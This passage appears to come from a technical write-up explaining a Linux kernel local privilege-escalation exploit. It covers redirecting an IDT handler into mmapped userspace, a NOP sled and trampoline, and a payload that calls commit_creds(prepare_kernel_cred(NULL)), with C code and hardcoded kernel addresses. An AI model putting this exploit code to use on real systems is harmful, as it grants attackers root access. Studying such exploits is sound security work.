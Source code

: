 ### Return to userspace
 
Let's assume that previous loop found the pointer to the IDT structure that has the handler at 0xffffffff816a8140. After triggering the exploit the handler address will be 0x00000000816a8140. Now it points to user space. The next step would be to copy the exploit code there. However, before any operation can be performed on that address the page has to be mmapp'ed.  
To be on a safe side it is better to mmap large memory region so it covers maximum number of possible addresses. `kbase = idt.addr & 0xff000000;` would be a good base for the mmap and `KSIZE=0x2000000` should be enough. For example, if idt.addr would be 0xffffffff81dd6000 masking it with 0xff000000 results in a base of 0x81000000. 

```c
assert((code = (void*)mmap((void*)kbase, KSIZE, 7, 0x32, 0, 0)) == (void*)kbase);
memset(code, 0x90, KSIZE); code += KSIZE-1024; memcpy(code, &payload, 1024);
memcpy(code-13,"\x0f\x01\xf8\xe8\5\0\0\0\x0f\x01\xf8\x48\xcf", 13);
```

Line 2: the newly mmaped memory region is filled with nops (0x90) first. Secondly, the payload is copied into the last page (1024) of that memory region. It ensures that we can land anywhere in that region and the payload will be executed after the sled.  
Line 3: just before the payload 13 bytes of the trampoline is added. The purpose of it is to transition the execution from a userspace to kernelspace, jump to the payload and return from the syscall back to the userspace.

### Payload

The payload has 2 objectives. First, restore the IDT handler address. Second, elevate privileges with commit\_creds() technique. 
Line 14: the fixptr pointer holds a placeholder value. This value is searched for in a loop in line 24. The loop goes 3 times. Each time is calculates a placeholder value (line 25) and searches for it in the code section - the payload. Once the placeholder is found, it is being replaced with an address of the IDT offset address that was overflown earlier. As fixptr address now points to the IDT, the address can be restored by writing -1 to it (0xffffffff).  
Another 2 placeholders are marked to be replaced with addresses of commit\_creds and prepare\_kernel\_cred that are specific to each kernel version. Once all this is fixed and assigned, the commit\_creds() function is called with a NULL value. It updates the credentials set in the current task to the new value. In this case NULL. 

```c
uint64_t targets[3][3] =
           { {0xffffffff81ef67e0,  // perf_swevent_enabled
              0xffffffff81091630,  // commit_creds
              0xffffffff810918e0\}, // prepare_kernel_cred
             
/.../

#define AB(x) ((uint64_t)((0xababababLL<<32)^((uint64_t)((x)*313337))))

typedef int __attribute__((regparm(3))) (*commit_creds_fn)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred_fn)(unsigned long cred);

void __attribute__((regparm(3))) payload() {
	uint32_t *fixptr = (void*)AB(1);
	// restore the handler
	*fixptr = -1;
	commit_creds_fn commit_creds = (commit_creds_fn)AB(2);
	prepare_kernel_cred_fn prepare_kernel_cred = (prepare_kernel_cred_fn)AB(3);
	commit_creds(prepare_kernel_cred((uint64_t)NULL));
}

/.../

	for (j = 0; j < 3; j++) {
		needle = AB(j+1);
		assert(p = memmem(code, 1024, &needle, 8));
```